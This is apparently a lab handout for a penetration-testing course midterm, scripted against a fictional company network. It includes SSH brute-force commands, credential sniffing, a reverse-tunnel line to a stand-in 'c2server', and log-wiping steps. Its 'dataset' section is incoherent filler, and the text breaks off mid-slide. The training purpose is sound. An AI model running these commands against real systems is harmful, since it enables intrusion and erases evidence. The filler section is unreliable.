

# Week 08: 중간 평가 — 종합 물리 침투 시나리오

## 학습 목표
- Week 01-07에서 학습한 모든 물리 침투 기법을 종합적으로 적용한다
- 현실적인 물리 침투 시나리오를 처음부터 끝까지 수행한다
- 정찰, 접근, 공격, 이탈의 전체 킬체인을 실습한다
- 물리 침투 보고서 작성의 기초를 다진다
- 개인/팀의 역량을 중간 평가하고 부족한 부분을 식별한다
- 실전에서 발생할 수 있는 예상치 못한 상황에 대응하는 능력을 기른다

## 전제 조건
- Week 01-07 모든 과정 이수
- 모든 실습 과제 완료

## 강의 시간 배분 (3시간)

| 시간 | 내용 | 유형 |
|------|------|------|
| 0:00-0:20 | 중간 평가 개요 및 시나리오 브리핑 | 강의 |
| 0:20-0:40 | 평가 기준 및 주의사항 | 강의 |
| 0:40-0:50 | 휴식 | - |
| 0:50-2:20 | 종합 물리 침투 실습 (90분) | 실습/평가 |
| 2:20-2:30 | 휴식 | - |
| 2:30-3:10 | 결과 발표 및 디브리핑 | 토론 |
| 3:10-3:40 | 필기 평가 + 후반기 예고 | 평가 |

---

# Part 1: 중간 평가 이론 복습

## 1.1 물리 침투 킬체인 종합 복습

```
완전한 물리 침투 킬체인:

Phase 1: 정찰 (Reconnaissance) — Week 01, 02
├── OSINT: 조직 정보, 건물 위치, 직원 정보
├── 현장 정찰: 출입구, CCTV, 보안 체계
├── 네트워크 정찰: 무선 네트워크, 외부 서비스
└── 사회공학 정찰: 직원 행동 패턴, 출입 절차

Phase 2: 준비 (Preparation) — Week 02, 03, 04
├── 프리텍스트 설계: 역할, 복장, 문서
├── 공격 도구 준비: RFID 복제기, USB 장치
├── 시나리오 리허설: 역할극, 대사 준비
└── 법적 준비: 허가서, 비상 연락처

Phase 3: 접근 (Access) — Week 02, 03
├── 사회공학: 프리텍스팅, 테일게이팅
├── RFID/NFC: 카드 복제, 리더기 우회
├── 물리적 우회: 잠금장치, 비상구
└── 무선 접근: WiFi 해킹

Phase 4: 공격 (Exploitation) — Week 04, 05, 06, 07
├── USB HID: 키스트로크 인젝션
├── 네트워크 임플란트: LAN Turtle 설치
├── WiFi MITM: Evil Twin, ARP Spoofing
├── 정보 수집: 문서 촬영, 데이터 탈취
└── 지속성 확보: 백도어 설치

Phase 5: 이탈 (Exfiltration)
├── 증거 수집: 사진, 로그, 수집 데이터
├── 장치 회수: 임플란트, USB 장치
├── 흔적 제거: 로그 정리, 물리적 흔적
└── 안전한 철수

Phase 6: 보고 (Reporting) — Week 13
├── 타임라인 작성
├── 취약점 목록
├── 증거 정리
├── 개선 권고안
└── 경영진 브리핑
```

## 1.2 기법별 요약표

| 주차 | 기법 | 핵심 도구/개념 | 위험도 |
|------|------|---------------|--------|
| W01 | 물리 보안 개론 | CIA Triad, 위협 분류 | - |
| W02 | 사회공학 | 프리텍스팅, 피싱, SET | 높음 |
| W03 | RFID/NFC | Proxmark3, Mifare, Flipper | 높음 |
| W04 | USB HID | Rubber Ducky, DuckyScript | 매우 높음 |
| W05 | 네트워크 임플란트 | LAN Turtle, Shark Jack | 매우 높음 |
| W06 | WiFi 기초 | aircrack-ng, WPA2 크래킹 | 높음 |
| W07 | WiFi 심화 | Evil Twin, MITM | 매우 높음 |

## 1.3 평가 시나리오

### 시나리오 배경

```
=== 중간 평가 시나리오 ===

대상 조직: "세큐어테크" (가상 중소기업)
업종: IT 서비스 제공업
직원 수: 50명
위치: 오피스 빌딩 3층

네트워크 구성:
├── 업무 네트워크: 10.20.30.0/24
├── 서버: 10.20.30.1 (보안), 10.20.30.80 (웹), 10.20.30.100 (SIEM)
├── WiFi: "CorpWiFi" (WPA2-PSK)
└── 게스트 WiFi: "Guest-WiFi" (오픈)

물리 보안:
├── 1층: 로비, 경비실 (방문자 등록)
├── 2층: 일반 사무실 (카드키 출입)
├── 3층: IT 부서 + 서버룸 (카드키 + PIN)
└── CCTV: 로비, 복도, 서버룸

미션 목표:
1. [정찰] 대상 네트워크 전체 맵핑
2. [접근] 서버에 접근하여 정보 수집
3. [공격] USB 키스트로크 인젝션 시뮬레이션
4. [임플란트] 네트워크 백도어 설치 시뮬레이션
5. [보고] 발견된 취약점 정리
```

## 1.4 평가 기준

| 항목 | 배점 | 세부 기준 |
|------|------|----------|
| 정찰 능력 | 20점 | 네트워크 맵핑, 서비스 식별 완성도 |
| 공격 실행 | 30점 | USB/임플란트 시뮬레이션 정확성 |
| 기법 활용 | 20점 | 다양한 기법의 적절한 조합 |
| 보고서 | 20점 | 발견사항 정리, 개선 권고 |
| 창의성 | 10점 | 독창적 접근 방식 |
| **총점** | **100점** | |

---

# Part 2: 종합 침투 실습

## 2.1 Phase 1: 네트워크 정찰

```bash
# attacker VM에서 실행
ssh ccc@10.20.30.201

# === Phase 1: 네트워크 정찰 ===
echo "=========================================="
echo " Phase 1: Network Reconnaissance"
echo "=========================================="

# 1-1. 네트워크 호스트 탐지
echo "[1-1] Host Discovery"
nmap -sn 10.20.30.0/24 2>/dev/null

# 1-2. 포트 스캔
echo ""
echo "[1-2] Port Scan"
nmap -sV --top-ports 100 10.20.30.1 10.20.30.80 10.20.30.100 2>/dev/null

# 1-3. OS 탐지
echo ""
echo "[1-3] OS Detection"
nmap -O 10.20.30.80 2>/dev/null | grep -A5 "OS details\|Running"
```

## 2.2 Phase 2: 서비스 분석 및 취약점 식별

```bash
# === Phase 2: 서비스 분석 ===
echo "=========================================="
echo " Phase 2: Service Analysis"
echo "=========================================="

# 2-1. 웹 서비스 분석
echo "[2-1] Web Service Analysis"
curl -s -I http://10.20.30.80:3000 2>/dev/null
echo ""

# 2-2. SSH 배너 수집
echo "[2-2] SSH Banner Grabbing"
for host in 10.20.30.1 10.20.30.80 10.20.30.100; do
    echo -n "  $host: "
    echo "" | nc -w 3 $host 22 2>/dev/null | head -1
done
echo ""

# 2-3. 기본 크리덴셜 테스트
echo "[2-3] Default Credential Check (SSH)"
echo "  Testing common credentials on web server..."
sshpass -p '1' ssh -o StrictHostKeyChecking=no -o ConnectTimeout=3 ccc@10.20.30.80 'echo "Access Granted: $(hostname)"' 2>/dev/null || echo "  Access denied or sshpass not available"
```

## 2.3 Phase 3: USB HID 공격 시뮬레이션

```bash
# === Phase 3: USB HID Attack Simulation ===
echo "=========================================="
echo " Phase 3: USB HID Attack"
echo "=========================================="

# 3-1. 정보 수집 페이로드 실행
echo "[3-1] Info Gathering (simulating keystroke injection)"
echo "  Simulated payload: whoami && id && hostname"
whoami && id && hostname

echo ""
echo "[3-2] System information collection"
uname -a
echo ""
cat /etc/os-release 2>/dev/null | head -5

echo ""
echo "[3-3] Network information"
ip addr show | grep "inet " | grep -v "127.0.0.1"
ip route show | head -3

echo ""
echo "[3-4] Simulated exfiltration"
# 수집한 정보를 파일로 저장 (실제 공격에서는 C2로 전송)
cat << 'INFO' > /tmp/exfiltrated_data.txt
=== Exfiltrated System Information ===
Hostname: $(hostname)
User: $(whoami)
OS: $(uname -a)
Network: $(ip addr show | grep "inet " | grep -v "127.0.0.1")
Open Ports: (see nmap results)
INFO
echo "  Data saved to /tmp/exfiltrated_data.txt"
```

## 2.4 Phase 4: 네트워크 임플란트 시뮬레이션

```bash
# === Phase 4: Network Implant Simulation ===
echo "=========================================="
echo " Phase 4: Network Implant"
echo "=========================================="

# 4-1. 임플란트 설치 시뮬레이션
echo "[4-1] Simulating implant installation"
echo "  Location: Between workstation and network port"
echo "  Device: LAN Turtle (simulated)"
echo ""

# 4-2. 네트워크 스니핑 시뮬레이션
echo "[4-2] Network sniffing simulation"
timeout 5 tcpdump -c 10 -i any 'port 80 or port 22' 2>/dev/null || echo "  tcpdump: limited in this environment"

echo ""
echo "[4-3] Reverse tunnel setup (simulation)"
echo "  Command: ssh -R 2222:localhost:22 attacker@c2server"
echo "  Status: Simulated (not executed for safety)"

echo ""
echo "[4-4] Persistence check"
echo "  Crontab entries:"
crontab -l 2>/dev/null || echo "  No crontab for current user"
```

## 2.5 Phase 5: 결과 종합 보고

```bash
# === Phase 5: Report ===
cat << 'REPORT' > /tmp/midterm_assessment_report.txt
=== 물리 침투 테스트 중간 평가 보고서 ===

[1. 평가 개요]
대상: 세큐어테크 네트워크 (10.20.30.0/24)
기간: 실습 시간 내
수행자: 학번/이름

[2. 정찰 결과]
- 발견된 호스트: 4대 (attacker, secu, web, siem)
- 주요 서비스: SSH(22), HTTP(80,3000), 기타
- 기본 크리덴셜: 일부 확인됨

[3. 취약점 발견]
3.1 기본 비밀번호 사용 (위험도: 높음)
   - SSH 계정에 약한 비밀번호 사용
   
3.2 암호화되지 않은 서비스 (위험도: 중간)
   - HTTP 서비스 암호화 없이 운영

3.3 USB 포트 접근 통제 미흡 (위험도: 높음)
   - HID 공격에 취약
   
3.4 네트워크 접근 통제 미흡 (위험도: 높음)
   - NAC 미구현으로 임플란트 설치 가능

[4. 개선 권고]
4.1 강력한 비밀번호 정책 적용
4.2 HTTPS 전환
4.3 USB 포트 통제 솔루션 도입
4.4 802.1X NAC 구현
4.5 정기 물리 보안 점검

[5. 결론]
물리 보안과 사이버보안의 통합 관리가 필요하며,
특히 기본 보안 설정의 강화가 시급하다.
REPORT

cat /tmp/midterm_assessment_report.txt
```

---

## 과제

### 중간 평가 과제: 종합 물리 침투 보고서 (개인)
실습에서 수행한 모든 단계를 포함한 종합 보고서를 작성하라.
- 정찰 결과 및 네트워크 맵
- 각 공격 단계의 실행 결과
- 발견된 취약점 (최소 5개)
- 위험도별 분류 (높음/중간/낮음)
- 개선 권고안
- 제출: 1주 후

---

## 실제 사례 (WitFoo Precinct 6 — Tempest + EM)

> 출처: WitFoo Precinct 6 Cybersecurity Dataset (Apache 2.0)
> 본 lecture *Tempest + EM* 학습 항목 매칭.

### Tempest + EM 의 dataset 흔적 — "전자기 도청"

dataset 의 정상 운영에서 *전자기 도청* 신호의 baseline 을 알아두면, *Tempest + EM* 시도 시 발생하는 anomaly 를 정량으로 탐지할 수 있다. 핵심 정량 지표는 — side channel attack.



### Case 1: dataset 정량 지표

| 항목 | 값 |
|---|---|
| 핵심 신호 | 전자기 도청 |
| 정량 baseline | side channel attack |
| 학습 매핑 | TEMPEST 표준 |

**자세한 해석**: TEMPEST 표준. 이 차이를 정량으로 측정해야 *공격 시도와 정상 운영의 구분* 이 가능. 학생이 baseline 숫자를 외워두면 — 운영 환경에서 anomaly 를 즉시 탐지할 수 있다.

### Case 2: 실전 적용 시나리오

| 단계 | dataset 활용 |
|---|---|
| 시도 식별 | 전자기 도청 의 spike |
| 정상 vs 이상 | baseline 대비 비율 |
| 룰 작성 | Suricata / Wazuh / Sigma |
| 검증 | dataset 재실행 |

**자세한 해석**: 운영 환경 룰 작성은 — *baseline 측정 → 임계 결정 → 룰 작성 → dataset 검증* 의 4 단계. 한 단계라도 빠지면 false positive 폭증.

### 이 사례에서 학생이 배워야 할 3가지

1. **Tempest + EM = 전자기 도청 의 anomaly** — 정량 신호로 탐지.
2. **baseline 숫자 외우기** — side channel attack.
3. **4 단계 룰 작성** — 측정 → 임계 → 룰 → 검증.

**학생 액션**: Tempest demo.


---

## 부록: 학습 OSS 도구 매트릭스 (Course16 Physical Pentest — Week 08 중간 평가·종합 물리 침투 시나리오)

> 이 부록은 본문 Part 2 의 5 phase (정찰 / 서비스 분석 / USB HID / 임플란트 /
> 보고) 의 모든 명령을 *실제 OSS 도구* 로 매핑한다. week 01-07 의 모든 도구를
> *킬체인 통합 매트릭스* + *평가 채점 자동화* + *보고서 자동화* 관점으로
> 재구성한다. 평가 시나리오 (세큐어테크 — 10.20.30.0/24) 를 *5분 안에* 끝낼
> 수 있는 통합 시퀀스 + 학생 자가 채점 도구 + 보고서 템플릿 자동 생성을
> 포함한다.

### lab step → 도구 매핑 표

| step | 본문 위치 | 학습 항목 | 본문 명령 | 핵심 OSS 도구 | 도구 옵션 |
|------|----------|----------|----------|--------------|-----------|
| s1 | 2.1 [1-1] | Host discovery | `nmap -sn 10.20.30.0/24` | nmap / arp-scan / fping | `-sn -PR -PS22,80,443 -PA80,3389` |
| s2 | 2.1 [1-2] | Port + service | `nmap -sV --top-ports 100` | nmap / masscan / rustscan / naabu | `-sV --version-all -p- -T4` |
| s3 | 2.1 [1-3] | OS detection | `nmap -O 10.20.30.80` | nmap -O / xprobe2 / p0f | `-O --osscan-guess` |
| s4 | 2.2 [2-1] | Web 헤더 | `curl -s -I` | curl / httpx / whatweb / wappalyzer-cli | `httpx -title -tech-detect -status-code` |
| s5 | 2.2 [2-2] | SSH banner | `nc -w 3 :22` | nc / nmap NSE ssh-hostkey / ssh-audit | `ssh-audit -nv 10.20.30.1` |
| s6 | 2.2 [2-3] | default cred 시도 | `sshpass -p '1' ssh ccc@` | hydra / medusa / patator / crackmapexec | `hydra -L users -P passwords ssh://h` |
| s7 | 2.3 [3-1] | HID 페이로드 시뮬 | `whoami; id; hostname` | DuckyScript / xdotool / pynput | week 04 부록 참조 |
| s8 | 2.3 [3-4] | exfil 파일 | `cat << INFO > /tmp/...` | scp / curl POST / dnscat2 | week 05 부록 참조 |
| s9 | 2.4 [4-2] | 트래픽 스니핑 | `tcpdump -c 10 -i any` | tcpdump / tshark / netsniff-ng / ngrep | `tcpdump -i any 'port 80 or 22' -w cap.pcap` |
| s10 | 2.4 [4-3] | reverse SSH | `ssh -R 2222:localhost:22` | autossh / chisel / frp | week 05 부록 참조 |
| s11 | 2.4 [4-4] | 지속성 점검 | `crontab -l` | linpeas / linenum / pspy / lse | `linpeas -a` |
| s12 | 2.5 | 보고서 자동화 | `cat << REPORT >` | dradis / pwndoc / faraday / pandoc + jinja | `pwndoc-server` |
| s13 | 1.1 phase 6 | 타임라인 정리 | (개념) | aftb (after-the-fact builder) / Misp / GraphML | timesketch import |
| s14 | 1.1 phase 5 | 흔적 제거 (lab) | (개념) | bash history off / shred / journalctl --vacuum-time | `unset HISTFILE` |
| s15 | 1.1 phase 6 | 경영진 브리핑 | (개념) | marp / impressive / reveal-md | marp PDF/PPT export |

### 킬체인 6 Phase × 도구 통합 매트릭스 (week 01-07 누적)

| Phase | 주차 | 핵심 학습 | 1차 도구 | 2차 도구 | 보고 산출 |
|-------|------|----------|---------|---------|----------|
| **1. 정찰 (OSINT)** | W01-W02 | 조직·직원·건물 OSINT | theharvester / spiderfoot / maltego / recon-ng | sherlock / linkedin2username / google dorks | OSINT report |
| **1. 정찰 (현장)** | W01-W02 | 출입구·CCTV·경비 | 도면 / 사진 노트 / draw.io / iThoughts | drone (DJI), 음성 녹음 | 현장 노트 |
| **1. 정찰 (네트워크)** | W05-W06 | host/svc/wifi | nmap / arp-scan / kismet / wash | rustscan / masscan / netdiscover / wifite | nmap XML |
| **2. 준비** | W02-W04 | pretext / 도구 / 리허설 | DuckyScript / Proxmark3 / RFID 카드 / OMG cable | go script / Pi Zero / ESP32 / GoPro | RoE + 시나리오 doc |
| **3. 접근 (Social)** | W02 | pretexting / tailgate / phishing | gophish / SET / evilginx2 | macshift / faraday | Pretext docs |
| **3. 접근 (RFID)** | W03 | proxmark3 / Mifare / NFC | proxmark3 / libnfc-bin / mfoc / mfcuk | NFCkit / chameleon-mini | 카드 dump |
| **3. 접근 (잠금)** | W01 | lockpick / bypass | lockpicking-academy / shim 도구 | physical (실제 도구) | 사진 |
| **3. 접근 (WiFi)** | W06 | aircrack / hashcat | aircrack-ng / hcxdumptool / hashcat | wifite / wifiphisher | hashcat output |
| **4. 공격 (USB HID)** | W04 | DuckyScript / BadUSB | DuckyScript / xdotool / pynput / USBGuard | OMG cable / Bash Bunny | 페이로드 doc |
| **4. 공격 (LAN)** | W05 | LAN Turtle / responder / autossh | nmap / responder / bettercap / autossh / chisel | hostapd-mana / scapy | sniff pcap + cred |
| **4. 공격 (Wifi MITM)** | W07 | Evil Twin / sslstrip / mitm | hostapd-mana / dnsmasq / mitmproxy / sslstrip | evilginx2 / wifiphisher | captured.log |
| **4. 공격 (네트워크 침투)** | W08 | 정찰 → exploit | nuclei / metasploit / impacket / crackmapexec | bloodhound / mimikatz / rubeus | session log |
| **5. 이탈** | W08 | 회수 / 흔적 제거 | bash history / journalctl --vacuum / shred | (lab — 실 운영 회수 시뮬) | 사진 + log |
| **6. 보고** | W08 | 타임라인 / 취약점 / 권고 | dradis / pwndoc / faraday / pandoc / marp | excelize / jq | PDF + ppt |

### 학생 환경 준비 (Week 01-08 통합 — 한 번에 설치)

```bash
# attacker VM 통합 설치 (≈10분)
sudo apt-get update
sudo apt-get install -y \
   nmap rustscan masscan arp-scan netdiscover \
   curl wget jq httpie httpx \
   nikto whatweb dirb gobuster ffuf wfuzz \
   nuclei \
   hydra medusa patator sshpass \
   responder bettercap ettercap-text-only dsniff \
   autossh openssh-client \
   tcpdump tshark wireshark-common \
   aircrack-ng hcxtools hcxdumptool wifite \
   hostapd wpasupplicant freeradius \
   dnsmasq isc-dhcp-server \
   mitmproxy \
   crunch cewl \
   hashcat john \
   binwalk esptool xxd file \
   crackmapexec smbclient enum4linux \
   metasploit-framework \
   python3-flask python3-impacket python3-scapy \
   pandoc texlive-xetex \
   marp-cli

# pip 추가
pip3 install --user manuf pyyaml pwntools dnspython \
              jinja2 markdown2 weasyprint matplotlib

# 보고서 자동화
git clone https://github.com/pwndoc/pwndoc /tmp/pwndoc
git clone https://github.com/dradis/dradis-ce /tmp/dradis-ce
git clone https://github.com/infobyte/faraday /tmp/faraday

# bloodhound (AD)
sudo apt-get install -y bloodhound python3-bloodhound

# linpeas (지속성 점검)
curl -sL https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh \
   -o /tmp/linpeas.sh && chmod +x /tmp/linpeas.sh

# pspy (process monitor)
curl -sLo /tmp/pspy64 https://github.com/DominicBreuker/pspy/releases/latest/download/pspy64
chmod +x /tmp/pspy64

# 검증 (한 화면 출력)
for t in nmap rustscan masscan arp-scan curl httpx nikto nuclei \
         hydra responder bettercap autossh tcpdump aircrack-ng hashcat \
         crackmapexec mitmproxy dnsmasq pandoc marp; do
    cmd=$(command -v $t && $t --version 2>&1 | head -1) \
        && echo "OK   $t :: $cmd" \
        || echo "MISS $t"
done
```

### 핵심 도구별 상세 사용법 (통합 평가용 — week별 보강)

#### 도구 1: nmap NSE — 본문 phase 1 의 *완전판* (s1-s3)

본문 `nmap -sn / -sV / -O` 한 줄을 *NSE 스크립트* 로 보강하면 평가 시 더
풍부한 정보 수집:

```bash
# 1-1. 호스트 발견 + ARP MAC + 벤더
sudo nmap -sn -PR -PS22,80,443 -PA80,3389 \
   --reason 10.20.30.0/24 -oA /tmp/eval-l2

# 1-2. 빠른 풀 포트 (rustscan 으로 1-65535) → nmap NSE 위임
rustscan -a 10.20.30.0/24 -- -sV --version-all -O \
   --script "default,vuln,auth,banner" \
   -oA /tmp/eval-svc

# 1-3. NSE — 일반 audit 5종 동시
sudo nmap -p- -sV \
   --script "ssh-hostkey,ssh-auth-methods,ssh-publickey-acceptance,\
http-headers,http-methods,http-title,http-enum,http-default-accounts,\
ftp-anon,ftp-bounce,smb-enum-shares,smb-enum-users,\
mysql-empty-password,redis-info,memcached-info,\
ssl-cert,ssl-enum-ciphers,vulners" \
   10.20.30.1 10.20.30.80 10.20.30.100 \
   -oA /tmp/eval-nse

# 1-4. 산출 (XML 파싱)
python3 -c "
import xml.etree.ElementTree as ET
r = ET.parse('/tmp/eval-nse.xml').getroot()
for h in r.findall('.//host'):
    addr = h.find('address').get('addr')
    for p in h.findall('.//port'):
        portid = p.get('portid')
        proto = p.get('protocol')
        st = p.find('state').get('state')
        sv = p.find('service')
        sn = sv.get('name') if sv is not None else '-'
        sp = sv.get('product') if sv is not None else '-'
        print(f'{addr:14s} {portid:5s}/{proto} {st:6s} {sn:10s} {sp}')
"
```

#### 도구 2: nuclei — 본문 phase 2 의 *자동 취약점 stamping*

본문 `curl -I` 로 web 서비스 헤더 확인하는 부분을 *수만 개 CVE / 설정 오류
template* 로 자동 점검. 평가 시 *발견된 취약점 5개 이상* 요건 충족 가속.

```bash
# template 업데이트 (최신 CVE)
nuclei -update-templates

# 1. 가벼운 first-pass (info + low + medium)
nuclei -u http://10.20.30.80:3000 \
   -severity info,low,medium \
   -o /tmp/nuclei-light.txt

# 2. high + critical (중점)
nuclei -l <(echo -e "http://10.20.30.80:3000\nhttp://10.20.30.1\nhttp://10.20.30.100") \
   -severity high,critical \
   -tags cve,exposure,misconfig \
   -j -o /tmp/nuclei-critical.json

# 3. 자가 작성 template (lab 의 default-cred ssh 점검)
cat << 'EOF' > /tmp/ssh-default-cred.yaml
id: ssh-default-creds
info:
  name: SSH default credentials (ccc/1)
  author: lab
  severity: high
network:
  - host:
      - "{{Host}}:22"
    inputs:
      - data: "ccc"
      - data: "1"
matchers:
  - type: word
    words:
      - "Welcome"
EOF

nuclei -u 10.20.30.80 -t /tmp/ssh-default-cred.yaml

# 4. JSON 결과 → markdown 표
jq -r '. | "| \(.host) | \(.info.severity) | \(.info.name) |"' \
   /tmp/nuclei-critical.json
```

#### 도구 3: hydra — 본문 [2-3] *default credential* 자동 brute (s6)

본문 한 줄 `sshpass -p '1' ssh ccc@10.20.30.80` 의 다중 user/password 등가:

```bash
# 1. 사전 준비 — lab 에 자주 사용되는 cred (정량 limit 으로 안전)
cat << 'EOF' > /tmp/users.txt
ccc
admin
root
test
ubuntu
EOF
cat << 'EOF' > /tmp/passwords.txt
1
ccc
password
admin
root
toor
123456
EOF

# 2. SSH brute (5 thread, 4초 timeout, lab 만)
hydra -L /tmp/users.txt -P /tmp/passwords.txt \
   -t 5 -W 4 -e nsr \
   ssh://10.20.30.80 -o /tmp/hydra-ssh.log

# 출력 예:
# [22][ssh] host: 10.20.30.80   login: ccc   password: 1
# 1 of 1 target successfully completed, 1 valid password found

# 3. 다중 host 동시
hydra -L /tmp/users.txt -P /tmp/passwords.txt \
   -M /tmp/hosts.txt -t 4 -W 5 ssh

# 4. medusa (대안)
medusa -h 10.20.30.80 -U /tmp/users.txt -P /tmp/passwords.txt -M ssh

# 5. crackmapexec (윈도우 SMB / RDP / WinRM)
crackmapexec smb 10.20.30.0/24 -u /tmp/users.txt -p /tmp/passwords.txt
crackmapexec winrm 10.20.30.80 -u Administrator -p 'P@ssw0rd' --exec 'whoami'
```

> **속도 제한 의무**: lab 외부 운영 host 에 hydra 사용 시 *계정 잠금 사고* +
> *법적 책임*. lab 시나리오의 alpha=1 동시 + delay 1s 권장. 본 평가는
> *세큐어테크 lab* 한정.

#### 도구 4: tshark / tcpdump — 본문 [4-2] 트래픽 분석 보강 (s9)

본문 `tcpdump -c 10 -i any 'port 80 or port 22'` 의 분석 단계:

```bash
# 1. 캡처 (10분, ring buffer)
sudo tcpdump -i eth0 -w /tmp/eval.pcap -G 600 -W 1 \
   'host 10.20.30.80 or host 10.20.30.1 or host 10.20.30.100'

# 2. tshark 통계 — 프로토콜 분포
tshark -r /tmp/eval.pcap -z io,phs

# 3. tshark 필드 추출 — HTTP host / URL
tshark -r /tmp/eval.pcap -Y http.request -T fields \
   -e ip.src -e http.host -e http.request.uri \
   | sort | uniq -c | sort -rn | head -20

# 4. 평문 cred 검색
tshark -r /tmp/eval.pcap -Y "http.authbasic or ftp.request.command == \"PASS\"" \
   -T fields -e _ws.col.Time -e ip.src -e http.authbasic -e ftp.request.arg

# 5. SSH 키 교환 (실제 cred 는 못 추출 — 메타데이터만)
tshark -r /tmp/eval.pcap -Y "ssh.message_code" -T fields \
   -e _ws.col.Time -e ip.src -e ip.dst -e ssh.message_code | head

# 6. tcpdump → strings (간단 패턴 추출)
tcpdump -r /tmp/eval.pcap -A | strings | grep -E "Cookie|Authorization|password" \
   | head -20
```

#### 도구 5: linpeas + pspy — 본문 [4-4] *지속성 점검* (s11)

본문 `crontab -l` 한 줄을 *모든 지속성 vector 자동 점검* 으로 확장. 평가
시 발견된 lab host 의 *어디에 implant 설치 가능* 한지 자동 식별.

```bash
# 1. linpeas (모든 호스트 — privesc + 지속성)
ssh ccc@10.20.30.80 'bash -s' < /tmp/linpeas.sh > /tmp/linpeas-web.txt 2>&1
ssh ccc@10.20.30.1 'bash -s' < /tmp/linpeas.sh > /tmp/linpeas-secu.txt 2>&1

# 2. 결과 highlight
grep -E "PE - |WriteACL|sudo.*nopasswd|setuid|crontab|systemd unit" \
   /tmp/linpeas-web.txt | head -20

# 3. pspy — 60초 process monitor (cron / scheduled tasks 발견)
ssh ccc@10.20.30.80 '/tmp/pspy64 -pf -i 1000' &
PSPY_PID=$!
sleep 60
kill $PSPY_PID

# 출력 예:
# 2026-05-03 19:30:01 CMD: UID=0 PID=12345 | /usr/bin/python3 /opt/backup.py
# 2026-05-03 19:30:01 CMD: UID=0 PID=12346 | /bin/sh -c /opt/backup.py

# 4. systemd 신규 unit 가능성
ssh ccc@10.20.30.80 'systemctl list-unit-files --state=enabled | head -30'
ssh ccc@10.20.30.80 'systemctl list-timers --all'
```

#### 도구 6: 보고서 자동화 — pwndoc / pandoc / marp

본문 [Phase 5] 의 텍스트 보고서 (`cat << REPORT >`) 를 *PDF + PPT* 자동
생성. 평가 시 *경영진 브리핑* 까지 한 번에 산출.

```bash
# 1. 보고서 템플릿 (markdown + frontmatter)
mkdir -p /tmp/eval-report
cat << 'EOF' > /tmp/eval-report/report.md
---
title: 세큐어테크 물리 침투 테스트 중간 평가 보고서
author: 학번 학생명
date: 2026-05-03
classification: TLP:AMBER
---

# 1. Executive Summary

물리 보안과 사이버보안의 통합 관리가 필요. 특히 기본 보안 설정의 강화 시급.

# 2. 평가 개요

| 항목 | 값 |
|------|----|
| 대상 | 세큐어테크 (10.20.30.0/24) |
| 기간 | 90 분 |
| 수행자 | 학번 학생명 |
| 범위 | 정찰 → 접근 → 공격 → 임플란트 → 보고 |

# 3. 정찰 결과

## 3.1 발견된 호스트

| IP | 호스트명 | OS | 주요 서비스 |
|----|---------|------|-----------|
| 10.20.30.1 | secu | Ubuntu 24.04 | SSH(22), Wazuh(1514, 55000) |
| 10.20.30.80 | web | Ubuntu 24.04 | SSH(22), HTTP(3000) |
| 10.20.30.100 | siem | Ubuntu 24.04 | SSH(22), Elasticsearch(9200) |
| 10.20.30.201 | attacker | Kali | SSH(22) |

## 3.2 네트워크 맵

(draw.io / mermaid 다이어그램 첨부)

# 4. 발견된 취약점 (5+)

## 4.1 [HIGH] SSH 약한 비밀번호 (CVSS 7.2)

- **자산**: 10.20.30.80 (web)
- **계정**: ccc / 비밀번호 '1'
- **재현**: `hydra -l ccc -p 1 ssh://10.20.30.80`
- **영향**: 셸 access → privesc → 전체 시스템 장악
- **개선**: SSH key only + Fail2ban + MFA

## 4.2 [MEDIUM] HTTPS 미적용 (CVSS 5.0)

- **자산**: 10.20.30.80:3000 (web)
- **재현**: `curl -I http://10.20.30.80:3000` (HSTS 부재)
- **영향**: MITM 시 평문 cred 노출
- **개선**: Let's Encrypt + HSTS preload

## 4.3 [HIGH] USB 포트 통제 없음 (CVSS 7.5)

- **자산**: 모든 사무실 워크스테이션
- **재현**: USB Rubber Ducky 시뮬 (week 04)
- **영향**: HID injection → reverse shell + cred theft
- **개선**: USBGuard + udev rules + 사용자 교육

## 4.4 [HIGH] NAC / 802.1X 미구현 (CVSS 7.0)

- **자산**: 모든 빈 네트워크 포트 (회의실 등)
- **재현**: LAN Turtle 시뮬 (week 05)
- **영향**: 네트워크 임플란트 설치 가능 → MITM + exfil
- **개선**: 802.1X EAP-TLS + DHCP snooping + DAI

## 4.5 [HIGH] WiFi WPA2-PSK + 약한 PSK (CVSS 7.2)

- **자산**: CorpWiFi
- **재현**: hcxdumptool + hashcat -m 22000 (week 06)
- **영향**: handshake 캡처 → 사전 공격 → 회사 LAN 진입
- **개선**: WPA2-Enterprise (EAP-TLS) + WPA3-SAE 마이그레이션

# 5. 개선 권고 (우선순위)

| 우선순위 | 항목 | 비용 | 일정 |
|----------|------|------|------|
| 1 | SSH 약 비번 즉시 교체 + key 강제 | 낮음 | 1주 |
| 2 | USBGuard 전사 배포 | 중 | 1개월 |
| 3 | 802.1X EAP-TLS 도입 | 높음 | 3개월 |
| 4 | WiFi Enterprise 마이그 | 높음 | 3개월 |
| 5 | HTTPS / HSTS 전환 | 낮음 | 2주 |

# 6. 결론

물리 + 사이버 통합 보안 거버넌스 필요. 기본 보안 강화 (default cred 제거 +
USB 통제 + NAC) 가 ROI 가장 높음. 다음 평가 (Week 15) 까지 1-2 항목 이행
권장.

EOF

# 2. PDF 생성 (pandoc + xetex)
pandoc /tmp/eval-report/report.md \
   -o /tmp/eval-report/report.pdf \
   --pdf-engine=xelatex \
   -V mainfont="NanumGothic" \
   -V geometry:margin=1in

# 3. PPT 생성 (marp)
cat << 'EOF' > /tmp/eval-report/brief.md
---
marp: true
theme: gaia
header: 세큐어테크 침투 테스트 중간 평가
footer: TLP:AMBER | 2026-05-03
---

# 세큐어테크 물리 침투 테스트
## 중간 평가 결과 브리핑

학번 학생명 | 2026-05-03

---

## Executive Summary

- 5 가지 high-risk 취약점 발견
- 모두 *기본 보안 설정 미흡* — 즉시 조치 가능
- 추정 위험 비용: 사고 발생 시 ₩수억대

---

## 발견 #1 — SSH 약한 비밀번호

- 자산: 10.20.30.80
- 계정: ccc / '1'
- 영향: 5초 안에 셸 access
- 조치: 1주 내 SSH key 강제 + Fail2ban

---

## 발견 #2 — USB 포트 통제 없음

- 자산: 사무실 전체
